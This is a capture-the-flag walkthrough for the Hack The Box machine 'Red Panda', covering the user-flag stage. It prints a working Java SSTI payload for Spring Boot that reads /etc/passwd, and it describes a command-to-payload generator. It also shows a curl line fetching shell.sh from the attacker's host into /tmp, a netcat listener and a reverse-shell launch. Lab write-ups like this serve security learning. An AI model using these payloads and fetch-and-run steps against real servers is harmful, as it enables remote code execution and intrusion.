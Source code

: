 # Red Panda

## User Flag

After adding redpanda.htb to my vhosts, using nmap I discovered it's running ssh as well as an http proxy. After accessing port 8080, I discovered on the title, it's running Spring Boot which is a Java based system.

Knowing this I assumed the next step was to try XSS or SSTI. SSTI seemed to be the winner as after using the following payload:

```
*{7*7}
```

I was able to return the result 49, meaning I could run malicious code on the server. Using the Git Repo "PayloadAllTheThings" I found a payload corresponding to Java (what Spring Boot is a web framework of).

```
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
```

(Note that I replaced first character of the example on PayloadAllTheThings with a * like the first working payload)

From here I next wrote a python script that will be included in the repo to turn linux commands into Java based payloads.

To get the flag, I used the python tool to explore the system until I found the user flag.

```
python3 JavaPayloadGenerator.py
Linux Command to Convert: cat /home/woodenk/user.txt
```

After that I generated a reverse shell to enter the system then go for root. (Shell can be seen in the shell.sh section)

First, I hosted my shell.sh in a python webserver sitting int the /tmp/ directory with the bash script:

```
python3 -m http.server
```

Second, I used my python payload script to generate a java payload of the following:

```
python3 JavaPayloadGenerator.py
Linux Command to Convert: curl 10.10.14.6:8000/shell.sh --output /tmp/shell.sh
```

I pasted the results in the search bar to retrieve the shell.sh script I made and place it in the /tmp/ directory.

Third, I called the bash script while running a netcat listener on my device:

```
nc -lvnp 1234
python3 JavaPayloadGenerator.py
Linux Command to Convert: bash /tmp/shell.sh
```
